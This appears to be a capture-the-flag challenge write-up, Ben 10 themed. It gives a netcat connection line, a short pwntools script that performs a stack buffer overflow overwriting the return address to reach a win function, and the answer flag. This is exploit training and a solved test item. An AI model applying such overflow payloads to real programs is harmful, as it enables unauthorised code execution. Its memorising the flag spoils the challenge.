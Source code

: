 # Challenge 17

## Difficulty

Medium

## Title

Omnitrix Core Breach

## Description

Ben’s Omnitrix has started acting weird — it won’t allow any transformations. Suspiciously, the authorization module keeps rejecting his credentials, no matter what he types in.

Grandpa Max suspects foul play — maybe someone tampered with the firmware before leaving for the Null Void. Gwen pulled the system logs and found a strange binary labeled omnitrix.

> "This isn’t just a bug," she muttered. "Someone doesn't want Ben to transform."

Find a way into the core and unlock the transformation sequence. Somewhere inside the binary, the Omnitrix still remembers Ben. You just need to land at the exact right position to prove you're worthy.

Connect to the omnitrix console using:

```bash
nc omnitrix.cynox.aotfiesta25.tech 40213
```

## Files

- `omnitrix.c`: C source code for the challenge.
- `omnitrix`: Compiled binary for the challenge.

## Solution

Classic Buffer Overflow.

```python
from pwn import *

# Replace with the actual address of transform_into_xlr8
target_addr = p64(0x401196)

payload = b"A" * 64          # buffer
payload += b"B" * 8          # saved RBP
payload += target_addr       # return address

p = process("./omnitrix")
p.sendline(payload)
p.interactive()
```

## Flag

```text
cyn0x{h3_wh0_0v3rfl0ws_th3_st4ck_g41ns_0mn1tr1x_c0ntr0l}
```
